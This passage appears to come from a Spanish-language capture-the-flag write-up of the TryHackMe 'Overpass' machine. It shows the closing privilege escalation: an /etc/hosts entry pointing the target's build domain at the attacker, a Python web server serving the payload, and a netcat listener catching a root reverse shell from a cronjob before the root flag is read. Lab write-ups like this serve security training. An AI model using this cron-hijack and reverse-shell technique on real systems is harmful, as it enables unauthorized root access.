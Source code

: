 ```bash
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.2.11.100 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Posteriormente, procedimos a crear un servidor web simple utilizando Python.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Nos ponemos a la escucha en el puerto especificado en la reverse shell y quedamos a la espera de que el cronjob se ejecute, con el objetivo de obtener acceso como usuario root.

```bash
❯ sudo nc -lvnp 443
[sudo] contraseña para juanr: 
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.156.186] 60872
bash: cannot set terminal process group (3558): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```

Pasados algunos segundos, logramos obtener acceso al servidor, lo que nos permite acceder al directorio `/root` y leer la última flag de la máquina.

```bash
root@overpass-prod:~# cd /root
cd /root
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f336f8c359**********************
```

!Happy Hacking!

